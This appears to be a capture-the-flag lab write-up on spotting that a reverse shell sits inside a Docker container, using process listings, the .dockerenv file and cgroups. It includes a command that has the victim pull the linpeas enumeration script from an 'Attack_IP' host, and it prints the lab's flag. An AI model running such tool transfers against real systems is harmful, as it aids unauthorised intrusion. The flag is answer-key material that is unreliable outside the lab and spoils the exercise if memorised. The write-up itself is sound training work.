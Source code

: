 Now that we have gained a shell onto the webserver, we need to perform some situational awareness to figure out where we are. We know from looking through some files when we exploited LFI that this may be a container. We can run some further enumeration and information gathering to identify whether that is true or not and anyway misconfigurations that might allow us to escape the container.  

From the Docker documentation, "A container is a standard unit of software that packages up code and all its dependencies, so the application runs quickly and reliably from one computing environment to another. A Docker container image is a lightweight, standalone, executable package of software that includes everything needed to run an application: code, runtime, system tools, system libraries, and settings."  

![](https://i.imgur.com/2oFwU49.png)  

Containers have networking capabilities and their own file storage. They achieve this by using three components of the Linux kernel:

- Namespaces
- Cgroups
- OverlayFS

But we're only going to be interested in namespaces here; after all, they lay at the heart of it. Namespaces essentially segregate system resources such as processes, files, and memory away from other namespaces.  

Every process running on Linux will be assigned a PID and a namespace.

Namespaces are how containerization is achieved! Processes can only "see" the process that is in the same namespace - no conflicts in theory. Take Docker; for example, every new container will be running as a new namespace, although the container may be running multiple applications (and, in turn, processes).  

Let's prove the concept of containerization by comparing the number of processes there are in a Docker container that is running a web server versus the host operating system at the time.  

We can look for various indicators that have been placed into a container. Containers, due to their isolated nature, will often have very few processes running in comparison to something such as a virtual machine. We can simply use `ps aux` to print the running processes. Note in the screenshot below that there are very few processes running?

Command used: `ps aux` 

![](https://i.imgur.com/NkdQRCE.png)  

Containers allow environment variables to be provided from the host operating system by the use of a `.dockerenv` file. This file is located in the "/" directory and would exist on a container - even if no environment variables were provided.

Command used: `cd / && ls -lah`

![](https://i.imgur.com/YbH0rGm.png)  

Cgroups are used by containerization software such as LXC or Docker. Let's look for them by navigating to `/proc/1` and then catting the "cgroup" file... It is worth mentioning that the "cgroups" file contains paths including the word "docker".

![](https://i.imgur.com/LxU3w2p.png)


---

# Your job

## linpeas

- Transfer [linpeas.sh](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) to the Victim Machine. Host the file in a python webserver by doing `python3 -m http.server 80` and then download the file in the remote machine with curl `curl [http://Attack_IP/linpeas.sh](http://Attack_IP/linpeas.sh) -output <remote_location_to_save>`
- Run linpeas.

	![[Task - 15 Docker? I hardly even know her!-20240909133501872.webp]]
	![[Task - 15 Docker? I hardly even know her!-20240909133807008.webp]]

	You'll get a very important information at the beginning. It says we are inside a Docker environment. So that means we are not actually in the `.33` machine, we got the shell in a container that is running inside `.33` machine.


---

## Flag on L-SRV02

On the Reverse Shell go to `www-data@8a178600e3d1:/var/www$` and run:

`cat user.txt`

HOLO{175d7322f8fc53392a417ccde356c3fe}

**Next step:** [[Task 16 - Living off the LANd]]


